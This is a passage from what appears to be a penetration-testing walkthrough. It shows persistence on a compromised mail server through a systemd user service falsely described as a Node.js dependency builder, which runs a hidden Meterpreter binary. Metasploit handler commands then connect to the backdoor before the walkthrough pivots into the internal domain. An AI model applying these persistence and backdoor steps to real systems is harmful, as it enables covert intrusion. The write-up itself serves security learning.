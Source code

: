 ```
mkdir systemd
cd systemd
mkdir user
cd user
vim node-build.service

[Unit]
Description=Node.js dependency building service

[Service]
Type=simple
ExecStart=/home/node-api/.config/.node/node-builder

[Install]
WantedBy=default.target

systemctl --user enable node-build
systemctl --user start node-build
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/8-2.png)

By starting the service we've executed the Meterpreter and set up a listener to connect to. We can now connect to the backdoor and test if it works.

```
msfconsole
use multi/handler
set payload linux/x64/meterpreter/bind_tcp
set RHOST <ip>
set LPORT <port>
exploit
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/9.png)

The backdoor works. Our next step is to make our way into the internal domain.

<div id="0x07"></div>

# 0x07 Into the domain

<a href="#0x06"><button class="nav-btn">Previous chapter</button></a><a href="#0x08"><button class="nav-btn">Next chapter</button></a>

After establishing persistence, lets check what other networks the mail server has defined routes to.

```
ip route
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/10.png)
